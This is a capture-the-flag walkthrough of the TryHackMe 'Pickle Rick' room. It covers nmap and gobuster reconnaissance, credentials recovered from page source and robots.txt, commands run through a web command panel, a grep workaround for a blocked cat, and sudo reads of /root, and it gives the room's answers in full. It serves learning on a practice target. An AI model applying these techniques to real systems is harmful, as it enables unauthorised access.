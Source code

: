 # Pickle Rick

{% embed url="https://tryhackme.com/room/picklerick" %}

##

## Task 1: Pickle Rick

### What is the first ingredient that Rick needs?

* Lets perform a simple `nmap` scan to see which ports are open.

```
$ nmap -sC -sV 10.10.88.164
Starting Nmap 7.92 ( https://nmap.org ) at 2023-11-11 14:52 IST
Nmap scan report for 10.10.88.164
Host is up (0.13s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b0:56:f1:d5:f7:ee:f0:9f:0f:9f:07:88:c6:56:7a:29 (RSA)
|   256 ef:9b:c2:3f:b3:84:8d:22:5e:d2:b4:09:59:ba:be:15 (ECDSA)
|_  256 0d:2a:4f:24:a0:9f:3d:20:80:31:b8:51:42:29:a7:0f (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Rick is sup4r cool
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 25.91 seconds
```

* There are two open ports:

| Port | Service |
| ---- | ------- |
| 22   | ssh     |
| 80   | http    |

* Let's enter the IP address in the browser and see what comes up.&#x20;

<figure><img src="../../.gitbook/assets/2 (35).png" alt=""><figcaption></figcaption></figure>

* Let's check the page source for more information.

<figure><img src="../../.gitbook/assets/3 (33).png" alt=""><figcaption></figcaption></figure>

* So we have a username now: `R1ckRul3s`. However we don't know the password yet.
* On most websites, the `robots.txt` file does the job of disallowing web crawlers from accessing particular pages. Let's see if we can find anything there.&#x20;

<figure><img src="../../.gitbook/assets/4 (31).png" alt=""><figcaption></figcaption></figure>

* Looks like `Wubbalubbadubdub` is the password.
* But where should we enter these credentials?
* In order to find the login page we will have to perform some directory brute-forcing. There are various tools available, but in this case let's use `gobuster`.

```
$ gobuster dir -u http://10.10.88.164 -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt -x php
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.88.164
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 291]
/login.php            (Status: 200) [Size: 882]
/assets               (Status: 301) [Size: 313] [--> http://10.10.88.164/assets/]
/portal.php           (Status: 302) [Size: 0] [--> /login.php]
-- snip --;
```

* We can see a `/login.php` file. Let's go to the file in the browser.

<figure><img src="../../.gitbook/assets/5 (31).png" alt=""><figcaption></figcaption></figure>

* Let's enter the credentials that we found before i.e. `R1ckRul3s` as username and `Wubbalubbadubdub` as the password.

<figure><img src="../../.gitbook/assets/6 (32).png" alt=""><figcaption></figcaption></figure>

* We're in and we have a `Command Panel` to enter our commands.
* We can use the `ls` command to list the files and sub-directories.

<figure><img src="../../.gitbook/assets/7 (28).png" alt=""><figcaption></figcaption></figure>

* The `Sup3rS3cretPickl3Ingred.txt` file seems interesting. Let's `cat` the contents of that file.

<figure><img src="../../.gitbook/assets/8 (22).png" alt=""><figcaption></figcaption></figure>

* Oh! So `cat` is disabled. We have to find another way to read the file.
* We can `grep` all the contents of the file by using the `.` regular expression.

```
grep . Sup3rS3cretPickl3Ingred.txt
```

<figure><img src="../../.gitbook/assets/9 (16).png" alt=""><figcaption></figcaption></figure>

### Answer

```
mr. meeseek hair
```

##

### What is the second ingredient in Rick’s potion?

* We can check which user are present by using the following command:

```
cd /home ; ls
```

<figure><img src="../../.gitbook/assets/10 (13).png" alt=""><figcaption></figcaption></figure>

* Let's check what files `rick` has using the following command:

```
cd /home/rick ; ls
```

<figure><img src="../../.gitbook/assets/11 (5).png" alt=""><figcaption></figcaption></figure>

* Let's see what is in to the `second ingredients`.

```
grep . /home/rick/"second ingredients"
```

<figure><img src="../../.gitbook/assets/12 (2).png" alt=""><figcaption></figcaption></figure>

### Answer

```
1 jerry tear
```

##

### What is the last and final ingredient?

* Let's look at the `/root` directory using the following command:

```
sudo ls /root
```

<figure><img src="../../.gitbook/assets/13 (2).png" alt=""><figcaption></figcaption></figure>

* As always, we can use `grep` to read the contents of a file.

```
sudo grep . /root/3rd.txt
```

<figure><img src="../../.gitbook/assets/14 (2).png" alt=""><figcaption></figcaption></figure>

### Answer

```
fleeb juice
```
